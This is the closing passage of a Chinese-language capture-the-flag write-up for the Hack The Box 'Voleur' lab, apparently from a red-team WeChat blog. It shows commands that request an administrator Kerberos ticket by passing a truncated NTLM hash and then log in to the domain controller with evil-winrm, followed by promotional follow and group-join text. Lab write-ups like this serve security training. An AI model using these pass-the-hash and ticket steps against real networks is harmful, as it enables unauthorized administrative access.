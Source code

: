   
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRYWg0DkrfzyMA3v0SGJWwUic53KMkcqpcNEoD2NFu09DUS823wsnAGPQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
获取 administrator 的 TGT 票据，使用票据登录成功，在桌面找到 root flag ⛳️  

```
impacket-getTGT -hashes aad3......ad2 'voleur.HTB/administrator'
export KRB5CCNAME=administrator.ccache
evil-winrm -i dc.voleur.htb -r voleur.htb
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRO4sz1nZ9YvortVYia2M1YvTUHNHA1eweh0EgOILPVFmFdiazXibpzNMkg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
   
  
欢迎关注   
红队安全圈 👇  
  
  
加入聊天群，关注后回复   
进群  
  
如果文章对你有帮助，给个   
一键四连 吧  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5HsgFkdwV2J3Ykl5xDepRoqkSBlQKAEIEx0DHiaQHx6sBYGNDAI6Eia2ZnZLLsHzD8yxEGEVbrzzTL4Shrf7iaWWw/640?wx_fmt=gif&from=appmsg "")  
  

